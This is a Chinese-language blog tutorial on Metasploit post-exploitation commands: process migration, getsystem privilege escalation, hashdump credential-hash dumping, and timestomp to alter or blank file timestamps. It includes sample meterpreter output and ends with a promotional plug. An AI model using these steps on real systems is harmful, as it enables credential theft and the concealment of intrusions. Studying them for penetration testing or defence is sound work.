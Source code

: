 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit高级后渗透模块
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit高级后渗透模块
lock: need
---
```


# Metasploit高级后渗透模块

### 迁移到更安全的进程

```
migrate [要迁移到的进程id]
```

### 获取系统级权限 

```
getsystem
```

注：getsystem模块在比较新的Windows系统中不太稳定，最好使用本地的提升权限方法和模块来提升控制权限。

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

### 获取密码的哈希值

```
run hashdump
```

获取了目标的系统级管理权限后，就可以使用hashdump命令获取被渗透系统上登录密码的哈希值。

### 修改文件的访问时间、修改时间和创建时间

这里用到的命令是timestomp

#### 查看文件的时间信息

```
timestomp -v [目标文件]

meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 10:24:42 +0800
Accessed      : 2019-01-25 11:20:58 +0800
Created       : 2019-01-25 10:23:22 +0800
Entry Modified: 2019-01-25 10:24:42 +0800
```

#### 修改文件的时间信息

```
timestomp -z [时间信息] [目标文件]
```

此时的时间信息格式为：MM/DD/YYYY HH24:MI:SS

```
meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 10:24:42 +0800
Accessed      : 2019-01-25 11:20:58 +0800
Created       : 2019-01-25 10:23:22 +0800
Entry Modified: 2019-01-25 10:24:42 +0800
meterpreter > 
meterpreter > timestomp -z "01/25/2019 11:00:00" e:\test.txt
[*] Setting specific MACE attributes on e:test.txt
meterpreter > timestomp -v e:\test.txt
[*] Showing MACE attributes for e:test.txt
Modified      : 2019-01-25 11:00:00 +0800
Accessed      : 2019-01-25 11:26:29 +0800
Created       : 2019-01-25 11:00:00 +0800
Entry Modified: 2019-01-25 11:00:00 +0800
```

#### 清空时间信息

```
timestomp -b [目标文件]

meterpreter > timestomp -b e:\test.txt
[*] Blanking file MACE attributes on e:test.txt
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
